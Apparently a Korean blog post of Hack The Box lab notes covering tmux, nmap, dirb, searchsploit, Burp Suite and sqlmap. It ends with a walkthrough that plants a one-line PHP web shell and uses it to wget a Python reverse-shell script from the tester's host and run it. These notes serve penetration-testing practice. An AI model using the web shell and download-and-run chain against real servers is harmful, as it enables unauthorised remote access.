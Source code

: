 ```yaml
---
layout: post
title: "hack the box intro"
featured-img: hack_the_box
category: Etc
---
```


`hack the box`에서 자주 사용되는 도구, 명령어를 정리해놓았습니다.

## tmux
---

tmux is a terminal multiplexer: it enables a number of terminals to be created, accessed, and controlled from a single screen. tmux may be detached from a screen and continue running in the background, then later reattached.

|command| Description |
|-----------|-------------|
|tmux ls|세션 목록보기|
|tmux new -s session_name|세션 생성하며 이름 지정|
|tmux attach -t session_aname|특정 세션으로 진입하기|
|tmux kill-session -t session_name|세션 바깥에서 특정 세션을 종료|
|exit|세션 종료|


|Key|Description|
|------------|-------------|
|ctrl + b, c | 새로운 윈도우 생성|
|ctrl + b, % | 윈도우 횡 분할|
|ctrl + b, " | 윈도우 종 분할|
|ctrl + b, q | 윈도우 이동 숫자키|
|ctrl + b, arrow | 윈도우 이동 방향키|
|ctrl + b, x|세션 종료|
|ctrl + b, d|세션 빠져나오기, 세션은 유지된다. |
|ctrl + b, w|모든 윈도우 리스트 보기|
|ctrl + b, z|특정 윈도우를 전체화면으로 전환, 한번 더 누르면 원상태 복구|
|ctrl + d|윈도우 닫기|

**\# Referrence #**<br>
[http://blog.b1ue.sh/2016/10/10/tmux-tutorial/](http://blog.b1ue.sh/2016/10/10/tmux-tutorial/)


### tmux copy block
---


tmux.conf 를 만들어서 vi의 단축키를 사용할 수 있도록 설정합니다.

```console
root@kali:~/Desktop/htb/tenten# cat ~/.tmux.conf
set-window-option -g mode-keys vi
```
session 안에서 `ctrl+b+:` 입력 후 다음 명령어를 입력합니다.

```
source-file ~/.tmux.conf
```

이후 `ctrl+b+]`를 통해서 블록 지정 `space`, 복사 `enter`, 붙여넣기 `ctrl+b+]`를 할 수 있습니다.

**\# Referrence #**<br>
[jupiny.tistory.com](https://jupiny.tistory.com/entry/tmux-%EC%B0%BD%EA%B3%BC-%EC%B0%BD-%EC%82%AC%EC%9D%B4%EC%97%90%EC%84%9C-%EB%B3%B5%EB%B6%99%ED%95%98%EA%B8%B0)

## nmap
---

```bash
nmap -sC -sV -oA nmap-scripts 10.10.10.6
```

|options|Description|
|------------|-------------|
|-sC | --script default|
|-sV|Probe open ports to determine service/version info|
|-oA \<basename\> | Output in the three major formats at once(xml, nmap, gnmap)|

[https://svn.nmap.org/nmap/docs/nmap.usage.txt](https://svn.nmap.org/nmap/docs/nmap.usage.txt)

## dirb
---
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.

```
dirb http://10.10.10.6 -r -o tmp.dirb
```

|options|Description|
|------------|-------------|
|-r | Don't search recursively|
|-o <output_file> | Save output to disk |

[https://tools.kali.org/web-applications/dirb](https://tools.kali.org/web-applications/dirb)

## searchsploit
---
http://www.exploit-db.com 을 콘솔 환경에서 검색 할 수 있는 툴<br>
[https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)

```bash
searchsploit afd windows local
searchsploit -t oracle windows
searchsploit -p 39446
searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
searchsploit -x 11746.txt
```

|options|Description|
|------------|-------------|
|\-x, --examine [EDB-ID]|Examine (aka opens) the exploit using $PAGER.|


## burpsuite
---

특정한 URL만 확인할 수 있습니다.
```
target -> add to scope -> show only in-scope items
proxy -> HTTP history -> show only in-scope items
```

firefox ESR 프록시 설정
```
open menu -> preferences -> General -> Network Proxy
```

HTTP 메소드 변경
```
right click -> change requests method
```
## sqlmap
---
sqlmap -r [HTTP Request file] --level5 --risk 3

## python-pty-shells 
---

[https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells)

python 기반의 reverse-shell입니다.<br>
다음 방법은 파일업로드가 가능하거나, 임의의 파일을 쓸 수 있을 때 가능한 방법입니다.

테스트한 환경은 ubuntu 18.04에 APM을 설치하여 진행하였습니다.

1) 먼저 아래와 같은 php 구문을 업로드 또는 서버에 씁니다.

```php
<?php echo system($_REQUEST['shin']);?>
```

다음과 같이 HTTP Request를 할 수있습니다.

```
GET /shell.php?shin=ifconfig HTTP/1.1
```

2) wget을 이용하여 python 파일을 전달하기 위해 다음 명령어를 실행합니다.

```bash
python -m SimpleHTTPServer
```

3) tcp_pty_backconnect.py의 ip부분을 수정하여 다음과 같이 HTTP Request를 통해 해당 서버에 python 파일을 전달합니다.

권한문제로 정상적으로 파일을 다운받을 수 없으므로 /var/www/html의 권한을 수정하였습니다.

```
GET /shell.php?shin=wget 192.168.87.132:8000/tcp_pty_backconnect.py -O /var/www/html/uploads/.rev.py HTTP/1.1
```

4) listener를 사용하기 위해서 다음의 명령어를 사용합니다.

```
python tcp_pty_shell_handler.py -b 192.168.87.132:31337
```

5) 이후 서버에 업로드한 python 파일을 실행시키면 쉘을 얻을 수 있습니다.

```
GET /shell.php?shin=python /var/www/html/uploads/.rev.py HTTP/1.1
```

## username 확인
---
[http://man7.org/linux/man-pages/man1/find.1.html](http://man7.org/linux/man-pages/man1/find.1.html)

```bash
www-data@popcorn:/var/www/torrent/upload$find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null| column -t
```

|filename|path|user|group|file permission(m)|
|------------|-------------|-------------|-------------|-------------|
|home                       | /home                                     |root  |  root   | 755|
|george                     | /home/george                              |george|  george | 755|
|.bash_logout               | /home/george/.bash_logout                 |george|  george | 644|
|.bashrc                    | /home/george/.bashrc                      |george|  george | 644|
|torrenthoster.zip          | /home/george/torrenthoster.zip            |george|  george | 644|
|.cache                     | /home/george/.cache                       |george|  george | 755|
|motd.legal-displayed       | /home/george/.cache/motd.legal-displayed  |george|  george | 644|
|.sudo_as_admin_successful  | /home/george/.sudo_as_admin_successful    |george|  george | 644|
|user.txt                   | /home/george/user.txt                     |george|  george | 644|
|.nano_history              | /home/george/.nano_history                |root  |  root   | 600|
|.mysql_history             | /home/george/.mysql_history               |root  |  root   | 600|
|.bash_history              | /home/george/.bash_history                |root  |  root   | 600|
|.profile                   | /home/george/.profile                     |george|  george | 644|

